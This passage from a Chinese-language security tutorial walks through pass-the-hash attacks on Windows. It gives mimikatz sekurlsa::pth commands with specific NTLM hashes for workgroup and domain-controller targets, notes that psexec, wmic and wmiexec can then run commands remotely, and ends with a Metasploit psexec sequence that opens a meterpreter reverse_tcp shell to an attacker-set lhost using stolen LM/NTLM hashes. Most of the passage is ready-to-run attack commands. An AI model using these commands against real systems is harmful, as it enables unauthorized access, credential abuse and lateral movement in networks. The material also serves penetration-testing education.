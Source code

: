 ```bash
#使用administrator用户的NTLM哈希值进行攻击
sekurlsa::pth /user:administrator /domain:192.168.10.15 /ntlm:329153f560eb329c0e1deea55e88a1e9
```

```bash
#使用xie用户的NTLM哈希值进行攻击
sekurlsa::pth /user:xie /domain:192.168.10.15 /ntlm:329153f560eb329c0e1deea55e88a1e9
```

在弹出的cmd窗口，我们直接可以连接该主机，并且查看该主机下的文件夹。

![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119154646838-949025649.png)

或者可以直接将该主机的C盘映射到本地的K盘。  
![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119154740616-176611090.png)

注：只能在 mimikatz 弹出的 cmd 窗口才可以执行这些操作，注入成功后，可以使用psexec、wmic、wmiexec等实现远程执行命令。

#### 4.2 域环境

在域环境中，当我们获得了域内用户的NTLM哈希值，我们可以使用域内的一台主机用mimikatz对域控进行哈希传递攻击。执行完命令后，会弹出cmd窗口。前提是我们必须拥有域内任意一台主机的本地 administrator 权限和获得了域用户的NTLM哈希值

域：xie.com  
域控：WIN2008.xie.com

```bash
#使用域管理员administrator的NTLM哈希值对域控进行哈希传递攻击
sekurlsa::pth /user:administrator /domain:"xie.com" /ntlm:dbd621b8ed24eb627d32514476fac6c5
```

```bash
#使用域用户xie的NTLM哈希值对域控进行哈希传递攻击
sekurlsa::pth /user:xie /domain:"xie.com" /ntlm:329153f560eb329c0e1deea55e88a1e9
```

![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119160652568-1867019301.png)

![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119160707705-1807263801.png)

#### 4.3 MSF进行哈希传递

有些时候，当我们获取到了某台主机的Administrator用户的LM-Hash和 NTLM-Hash ，并且该主机的445端口打开着。我们则可以利用 `exploit/windows/smb/psexec` 漏洞用MSF进行远程登录(哈希传递攻击)。(只能是administrator用户的LM-hash和NTLM-hash)，这个利用跟工作组环境或者域环境无关。

```bash
msf > use  exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set lhost 192.168.10.27
msf exploit(psexec) > set rhost 192.168.10.14
msf exploit(psexec) > set smbuser Administrator
msf exploit(psexec) > set smbpass 815A3D91F923441FAAD3B435B51404EE:A86D277D2BCD8C8184B01AC21B6985F6   #这里LM和NTLM我们已经获取到了
msf exploit(psexec) > exploit
```
